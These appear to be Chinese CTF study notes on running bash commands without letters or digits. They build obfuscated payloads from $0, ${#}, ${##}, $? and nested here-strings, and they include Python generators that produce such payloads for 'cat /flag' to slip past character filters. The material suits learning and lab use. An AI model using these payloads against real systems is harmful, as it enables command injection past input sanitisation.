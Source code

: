 # 极限条件下的命令执行

### 无数字字母构造bash命令

####  bash中!的用法

`!` 可以用于间接引用变量，例如：

bash复制

```bash
varname="myvar"
echo ${!varname}  # 输出 myvar 的值
```

#### $的用法

> | 变量名 | 含义                                                  |
> | ------ | ----------------------------------------------------- |
> | $0     | 脚本本身的名字                                        |
> | $1     | 脚本后所输入的第一串字符                              |
> | $2     | 传递给该shell脚本的第二个参数                         |
> | $*     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
> | $@     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
> | $_     | 表示上一个命令的最后一个参数                          |
> | $#     | #脚本后所输入的字符串个数                             |
> | $$     | 脚本运行的当前进程ID号                                |
> | $!     | 表示最后执行的后台命令的PID                           |
> | $?     | 显示最后命令的退出状态，0表示没有错误，其他表示由错误 |

``````bash
bash<<<'ls'			# 用bash执行ls
bash<<<$'\154\163'		# linux可以识别八进制表示的字符，将ls用八进制字符替换
bash<<<$\'\\$((2#10011010))\\$((2#10100011))\'	# \154\163八进制替换成二进制 \$((2#10011010))\$((2#10100011))
$0<<<$\'\\$((2#10011010))\\$((2#10100011))\'   	# 将bash用$0代替

# 由于上面执行方法不能待参数例如：ls / 或者cat flag，在ctfshow的极限命令执行题目里g4师傅给出了一种解决这种问题的方法——通过两次here-strings的方法来解析复杂的带参数命令
$0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\' # 两次here-strings的方法来解析复杂的带参数命令

# $((1<<1))代替2
$0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'

####替换数字
# 用 #{}！ 继续替换数字${#}替换0,$${##}替换1,${!#}替换$0
┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
└─$ echo ${!#}                                                                                               bash
┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
└─$ echo ${##}  
1                                      
┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
└─$ echo ${#} 
0

${!#}<<<${!#}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\'

# php的system解析不了${!#}这么复杂的命令把${!#}<<<${!#}替换成__=${#};${!__}<<<${!__}
__=${#};${!__}<<<${!__}\<\<\<\$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}))\\$(($((${##}<<${##}))#${##}${##}${##}${#}${#}${##}))\'

#### 利用$?构造从上一次构造我们其实可以发现，只要我们找到一个代表值为零的变量就可以得到bash进而继续构造，$?这个变量自然而然进入我的视线，它可以显示最后命令的退出状态，0表示没有错误，其他表示有错误 ，因此只要我们的payload最后不报错它的值自然还是0了：
$0<<<$0\<\<\<\$\'\\$((2#10011010))\\$((2#10100011))\'

# 自增产生012 $______等于0用!$_____生成bash命令
__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((2#10011010))\\$((2#10100011))\\$((2#101000))\\$((2#111001))\'

# 用${_____}替换0，${__}替换1，${____}替换2
__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}${__}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\'

#### 利用$(())替代$?达到同样效果
__=$(())&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}${__}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\'

``````

bash无代码字符数子执行命令利用脚本

```python
cmd='cat /flag'

payload='__=${#};${!__}<<<${!__}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$(($((1<<1))#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${##}').replace('0','${#}')

payload+='\\\''

print(payload)
```

``````python
cmd='cat /flag'

payload='__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
``````

```python
cmd='cat /flag'

payload='__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
```